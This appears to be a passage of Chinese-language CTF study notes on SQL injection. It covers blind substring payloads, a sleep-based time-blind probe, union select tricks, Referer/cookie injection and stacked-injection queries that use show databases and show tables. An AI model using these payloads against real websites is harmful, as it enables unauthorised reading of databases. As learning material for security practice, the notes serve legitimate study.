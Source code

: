 ```python


get_dbname()
```
#### 没过滤|和单引号'
* playload：用户名是字符串，要用''包起来
```
post:
payload="'||substr(p,{},1)<'{}".format(i,mid)
```

### 时间盲注
* 判断时间盲注：
```
?id=1' and sleep(3) --+
```
## 6.数据不在数据库中
* `知道字段数量为2后，可以查看数据库位置，使用union select 1,2查看未发现数据`
* `修改id=0或id=-1`
* 使用if()语句，若条件正确则有明显延迟

## 7.cookie注入

* 使用burpsuite
* `refer注入：直接在请求中写入**referer:**`   
* `http refer: HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。`    

## 8.堆叠注入
* 使用情况：过滤了select
### 基本语法：
```
1';show databases;#
```
```
1';show tables;#
```
```
1';show columns from words;#		
```
```
1';show columns from `1919810931114514`;#   // (字符串为表名操作时要加反引号)
```
* 输入：
> 1' union select 1,2#
* 发现过滤select，堆叠注入。以下为show函数用法：
> show databases//列出服务器可访问的数据库
> show tables//显示该数据库内相关表的名称
> show columns from tablename；//显示表tablename的字段、字段类型、键值信息、是否可以用null、默认值及其他信息。
* **表名为数字时要用反引号括起来**

